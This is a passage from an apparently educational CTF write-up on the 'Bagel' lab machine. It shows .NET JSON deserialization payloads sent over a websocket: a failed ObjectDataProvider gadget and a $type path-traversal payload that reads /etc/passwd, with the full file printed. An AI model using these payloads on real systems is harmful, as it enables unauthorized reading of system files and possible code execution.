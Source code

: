 This kinda works -- data is written, but the directory/filename were not set.  We can see it was written to the default location `/opt/bagel/orders/orders.txt`:

![](./assets/2023-04-09-15-35-07-image.png)

I'm assuming I can't deserialize into private fields (and it's been a while since I've used .NET!).

I next looked at the `System.Data.ObjectDataProvider` gadget after reading about .NET deserialization on [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net).  This class lets you instantiate an object of a specified type and call methods on it.  So, I tried to create a `bagel_server.File`, and call `WriteFile("/tmp/test.txt", "foobagelbaz")`:

```
{"RemoveOrder": {"$type":"System.Windows.Data.ObjectDataProvider,PresentationFramework,Version=4.0.0.0,Culture=neutral,PublicKeyToken=31bf3856ad364e35","MethodName":"WriteContent","MethodParameters":{"$type":"System.Collections.ArrayList,mscorlib,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b77a5c561934e089","$values":["/tmp/test.txt","foobagelbaz"]},"ObjectInstance":{"$type":"bagel_server.File,bagel"}}}
< "{\"Message\":\"unknown\"}"
```

Trying to retrieve with http://bagel.htb:8000/?page=../../../../tmp/test.txt gave `File Not found` -- so this didn't work (maybe I'm specifying the wrong type version, or it's just not available in dotnetcore given we're looking at Linux server?)

I confirmed I can call the `ReadFile` setter with an arbitrary filename (using path traversal) and get back the results, so another cool way of doing LFI.

Via our web socket, we read `/etc/passwd` again as a test:

```
> {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../etc/passwd"}}
< {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "9:19:41",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false",
    "WriteFile": null
  },
```